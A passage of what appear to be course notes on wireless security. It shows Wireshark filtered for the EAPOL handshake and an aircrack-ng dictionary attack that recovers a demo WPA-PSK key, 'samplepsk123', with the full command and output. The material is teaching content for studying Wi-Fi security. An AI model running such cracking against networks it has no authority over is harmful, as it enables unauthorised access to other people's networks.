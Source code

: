 Open the ```wpa_psk_demo-01.cap``` file in ```Wireshark```

Set the filter as ```eapol``` and see if you captured the 4 way handshake

![Image of Wireshark](https://github.com/Kan1shka9/Wireless-LAN-Security-Megaprimer-Notes/blob/master/images/part_22_2.jpeg)

Cracking ```WPA-PSK``` using ```aircrack-ng```

```sh
root@kali:~# aircrack-ng wpa_psk_demo-01.cap -w dictionary.txt
Opening wpa_psk_demo-01.cap
Read 7117 packets.

   #  BSSID              ESSID                     Encryption

   1  84:C9:B2:6D:0C:85  dlink                     WPA (1 handshake)

Choosing first network as target.

Opening wpa_psk_demo-01.cap
Reading packets, please wait...

                                 Aircrack-ng 1.2 rc4

      [00:00:00] 1/1 keys tested (139.90 k/s)

      Time left: 0 seconds                                     100.00%

                         KEY FOUND! [ samplepsk123 ]


      Master Key     : 7F B8 B9 62 2C 1B CF 4D 39 37 9B 31 BD 5C FA C0
                       8F BB CB 2E D3 92 DB CF B8 C9 CA 7B 7D 1A D3 CE

      Transient Key  : D2 AC AF DF 2F 09 A1 17 FF C2 2A 1B 81 1A B0 7B
                       8C 13 89 E7 AD 5F EC 71 AE 38 30 4C 5E 1C AB 35
                       C8 0B 71 E5 F2 26 2B 56 E7 DC E1 A3 21 52 C6 D7
                       4D 35 1F 33 A1 69 34 1E BF 04 15 24 AC AA B6 1D
```